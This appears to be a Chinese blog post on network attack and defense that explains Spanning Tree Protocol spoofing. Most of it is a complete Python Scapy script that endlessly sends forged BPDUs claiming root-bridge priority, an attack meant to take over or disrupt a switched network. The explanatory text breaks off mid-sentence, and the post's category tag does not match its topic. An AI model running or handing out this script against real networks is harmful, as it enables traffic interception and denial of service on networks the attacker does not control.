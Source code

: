 ```yaml
---
title: 网络攻防之——Python实现生成树协议(STP)欺骗攻击
categories: JavaSE 复习
copyright: true
date: 2019-04-09 10:09:48
tags:
- Python
- 生成树协议欺骗
- 网络攻防
---
```

# 何为生成树协议欺骗攻击？
- 所谓的生成树协议就是：通过BPDU来选举根桥或者非根桥，且当网络收敛完毕后，根桥会一直发送BPDU来位置下游设备之间的关系
> 根桥其实

# 代码示例
<!--more-->
```
#!/usr/bin/python
from scapy.all import *

eth = Dot3(dst="01:80:c2:00:00:00", src="00:0c:29:02:03:48")

llc = LLC(dsap=0x42,ssap=0x42,ctrl=0x03)

stp = STP(rootid=0, rootmac="00:0c:29:02:03:48", bridgeid=0, bridgemac="00:0c:29:02:03:48"
)

pkt=sendp(eth/llc/stp,inter=2,loop=1)
```